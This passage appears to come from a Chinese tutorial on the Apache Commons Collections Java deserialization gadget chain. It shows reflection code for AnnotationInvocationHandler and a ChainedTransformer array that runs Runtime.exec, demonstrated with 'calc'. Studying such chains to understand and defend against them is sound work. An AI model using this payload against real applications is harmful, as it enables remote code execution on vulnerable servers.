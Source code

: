 ```java
```

其中的memberValues是可以通过构造方法传递进去的。但是AnnotationInvocationHandler类并非public，也无法直接获取对象，我们需要使用反射获取到该类的对象。在构造器中传入一个注解类型的类对象，和我们上面构造的decoratedMap，在反序列化的时候就会调用该类的readObject方法，遍历decoratedMap，调用setValue。

```java
Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = clazz.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Overide.class, decoratedMap);

deserialize(o,"test.ser");
Object serialize = serialize("test.ser");
System.out.println(serialize);
```



但是有两点需要注意的是：

1. 当if判断通过后才能执行
2. setValue的值我们并不可控，并不能传入Runtime.class



我们先看一下if判断的问题，if判断memberType不等于null时才继续执行。memberType的值的获取方式是:

```
1. 获取我们传入的map的key -- 这里是 aaa
2. 然后获取我们传入的注解类的同名值 --- Override中没有参数 因此获取不到
3. 然后判断获取到的memberType是不是空的 --- 是空的 于是执行不到setVlaue
```

于是我们需要将最先的HashMap中的aaa修改为一个注解中存在的值，由于Overide不存在任何的属性，因此我们修改使用Target注解。

```java
……
map.put("value","bbb");
……
Object o = declaredConstructor.newInstance(Target.class, decoratedMap);
```

这样的话，if判断就可以通过了。



现在来解决第二个问题，我们无法控制setValue的参数。setValue的参数是Runtime.class类对象，最终需要传递给transform方法。我们无法控制的话，就无法执行命令。解决方法如下：

Transformer接口有另一个实现类：`org.apache.commons.collections.functors.ConstantTransformer`

该类在创建时需要传递进去一个Object类型的参数，在执行完该类的transform方法之后，会将我们传递进去的参数返回。如果将其置于chainedTransformer最前面，后续的transfrom方法的参数都将是我们设置的Object类型的参数。

```java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
```
